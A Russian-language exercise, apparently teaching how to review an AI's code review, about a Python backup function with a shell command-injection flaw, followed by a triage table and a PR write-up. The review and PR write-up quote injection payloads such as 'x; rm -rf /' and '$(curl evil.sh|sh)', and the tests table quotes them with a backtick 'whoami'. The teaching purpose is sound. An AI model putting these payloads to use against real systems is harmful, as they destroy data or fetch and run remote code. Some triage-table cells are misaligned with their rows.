

### Пример 1
Ситуация: утилита запускает системную команду. Аргумент приходит от пользователя


***Промт:***
> Ты код-ревьер, работаешь с утилитой, которая запускает системную команду.
``` Python
import os

def run_backup(folder: str) -> int:
    cmd = f"tar -czf backup.tgz {folder}"
    return os.system(cmd)
```

> Твоя задача проверить код на ошибки, наличие уязимостей и т.д.
Не предлагай рефакторинг без причины. 
Формат ответа:
> - blocker/major/minor
> - что не так, риск, как исправить

***Ответ ИИ:***   

blocker — командная инъекция через folder.  
Что не так: folder подставляется в shell-строку, а os.system выполняет её через /bin/sh -c.  
Риск: высокий. Значение вида "x; rm -rf /", "$(...)", backticks и т.п. приведёт к выполнению произвольных команд.  
Как исправить: не использовать shell и строковую сборку:
```python
import subprocess
subprocess.run(["tar", "-czf", "backup.tgz", "--", folder], shell=False, check=True)
```
-- обязателен, чтобы путь, начинающийся с -, не воспринимался как опция tar.

major — os.system возвращает не код выхода, а wait-status.  
Что не так: на Unix код возврата 1 часто приходит как 256; вызывающий код может неверно трактовать результат.  
Риск: средний. Ошибки backup’а маскируются или обрабатываются неправильно.  
Как исправить: использовать subprocess.run(...).returncode либо os.waitstatus_to_exitcode(os.system(cmd)).  

major — результат tar не проверяется, stderr не логируется.  
Что не так: функция возвращает статус, но не отличает успех/ошибку явно; причина ошибки теряется.  
Риск: средний. Бэкап не создан, а вызывающий код считает, что всё прошло успешно.
Как исправить: проверять returncode, логировать stderr, при необходимости выбрасывать исключение:  
```python
proc = subprocess.run([...], capture_output=True, text=True)
if proc.returncode != 0:
    raise RuntimeError(proc.stderr)
```
major — жёсткий путь backup.tgz в текущей директории.  
Что не так: файл перезаписывается; если folder — . или содержит текущую директорию, backup.tgz может попасть в собственный архив. В world-writable каталоге возможна атака через symlink на backup.tgz.  
Риск: средний. Потеря предыдущего бэкапа, «самовключение» архива, перезапись чужого файла через symlink.  
Как исправить: писать во временный файл и атомарно переименовывать; хранить архив вне архивируемой папки; при необходимости явно исключать backup.tgz из архива.

minor — нет валидации folder.  
Что не так: не проверяется, что путь существует, является директорией и разрешён для бэкапа.
Риск: средний при работе с внешним вводом, иначе низкий. Непонятные ошибки tar, архивирование не того пути.  
Как исправить: проверять os.path.isdir(folder), при необходимости os.path.realpath(folder) и allowlist разрешённых директорий.

minor — права доступа к архиву зависят от umask.  
Что не так: backup.tgz создаётся с правами по текущему umask.  
Риск: низкий/средний. Бэкап может быть доступен лишним пользователям.
Как исправить: если в бэкапе есть чувствительные данные, выставлять права 0o600 после создания.  

### Классификация замечаний
|Замечание ИИ| Тип(корректное/сомнительное/ошибочное) | "Светофор"(Accept/Reject/Verefy) |Приоритет(blocker/major/minor)| Что делаем дальше                                                                                                                                                                          |
|------------|----------------------------------------|----------------------------------|-------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|blocker — командная инъекция через folder.| Корректное                             | Accept                           |blocker| Вносим правки в соответствии с рекомендациями ИИ                                                                                                                                           |
|os.system возвращает не код выхода, а wait-status.| Корректное                             | Verify                           |major| Проверить, как вызывающий код трактует int; на Unix использовать subprocess.run(...).returncode или os.waitstatus_to_exitcode(os.system(...)); добавить тест на успешный и неуспешный tar. |
|жёсткий путь backup.tgz в текущей директории.| Сомнительное                           | Verify                           |major| Проверить, что файл создансогласовать контракт: возвращать код, логировать stderr или выбрасывать исключение; покрыть тестом сценарий падения tar                                          |
|нет валидации folder| Корректное                             | Verify                           |minor| определить место хранения архива; писать во временный файл и атомарно переименовывать; исключать backup.tgz из архива; проверить повторный запуск и folder="."                             |
|права доступа к архиву зависят от umask.| Cомнительное                                           | Verify                           |minor| уточнить требования к конфиденциальности                                                                                                                                                   |minor| Отклоняем замечание                                                                                                                                                                        

## PR
1. Command injection через folder — blocker  
   Что не так: folder подставляется в строку shell-команды, а os.system исполняет её через /bin/sh -c.  Риск: высокий. folder = "x; rm -rf /", "$(curl evil.sh|sh)", backticks — произвольное выполнение команд с правами процесса. Также ломаются пути с пробелами и glob.  Как исправить: не использовать shell, передавать аргументы списком:
```python
import subprocess
subprocess.run(["tar", "-czf", "backup.tgz", "--", folder], shell=False, check=True)
```
-- обязателен, чтобы путь, начинающийся с -, не воспринимался как опция tar.  
Приоритет: blocker

2. os.system возвращает wait-status, а не код выхода — major  
   Что не так: на Unix код возврата 1 приходит как 256; контракт -> int вводит вызывающий код в заблуждение.  
Риск: средний. Ошибки бэкапа маскируются или обрабатываются неверно.
Как исправить: возвращать subprocess.run(...).returncode или обернуть os.waitstatus_to_exitcode(...).  
Приоритет: major

3. Результат tar не проверяется, stderr не логируется — major  
   Что не так: функция не различает успех/ошибку явно, причина падения tar теряется.  
Риск: средний. Бэкап не создан, а вызывающий код считает, что всё ок.  
Как исправить: проверять returncode, логировать stderr, при необходимости кидать исключение:
```python
proc = subprocess.run([...], capture_output=True, text=True)
if proc.returncode != 0:
    raise RuntimeError(proc.stderr)
```
Приоритет: major

4. Жёсткий путь backup.tgz в текущей директории — major
   Что не так: файл перезаписывается; при folder = "." архив попадает в собственный архив; в world-writable каталоге — атака через symlink на backup.tgz.  
Риск: средний. Потеря предыдущего бэкапа, «самовключение», перезапись чужого файла через symlink.
Как исправить: писать во временный файл и атомарно переименовывать; хранить архив вне архивируемой папки; при необходимости явно исключать backup.tgz из архива.  
Приоритет: major

5. Нет валидации folder — minor
   Что не так: не проверяется, что путь существует, является директорией и разрешён для бэкапа.
Риск: низкий/средний (зависит от того, откуда приходит folder). Непонятные ошибки tar, архивирование не того пути.  
Как исправить: os.path.isdir(folder); при внешнем вводе — os.path.realpath + allowlist разрешённых директорий.
Приоритет: minor

6. Права доступа к архиву зависят от umask — minor
   Что не так: backup.tgz создаётся с правами по текущему umask.  
Риск: низкий/средний. Бэкап может быть доступен лишним пользователям.  
Как исправить: если в бэкапе есть чувствительные данные, выставлять 0o600 после создания.  
Приоритет: minor

### Next Step

#### 🔴 Исправить до merge (blocker)
1. **Заменить `os.system()` на `subprocess.run()` со списком аргументов** — отключает shell-интерпретацию и устраняет command injection.
   ```python
   # Было:
   cmd = f"tar -czf backup.tgz {folder}"
   return os.system(cmd)

   # Стало:
   result = subprocess.run(["tar", "-czf", "backup.tgz", "--", folder], shell=False)
   return result.returncode
   ```
2. **Добавить валидацию `folder`** — проверить `os.path.isdir(folder)` перед запуском и выбросить `FileNotFoundError` с понятным сообщением.

#### 🟡 Вынести в отдельную задачу (major/minor)
1. **Обработка ошибок `tar`** — логировать stderr при падении (`subprocess.run(..., capture_output=True, text=True)`).
2. **Явный путь к архиву** — вместо хардкода `backup.tgz` в CWD принимать `output_dir` или использовать `pathlib`.
3. **Таймаут** — `subprocess.run(..., timeout=3600)` чтобы зависший `tar` не блокировал процесс.

#### 🟢 Тесты, которые стоит добавить
| Сценарий | Ожидаемый результат |
|----------|---------------------|
| `folder` с метасимволами (`; rm -rf /`, `` `whoami` ``) | Команда не выполняется, аргумент передаётся как строка |
| Несуществующий путь | `FileNotFoundError` / понятная ошибка |
| Успешный бэкап | `returncode == 0`, файл `backup.tgz` существует |
| `tar` падает (нет прав на папку) | `CalledProcessError` / обработка `returncode != 0` |
| Большой бэкап (таймаут) | Процесс прерывается по timeout


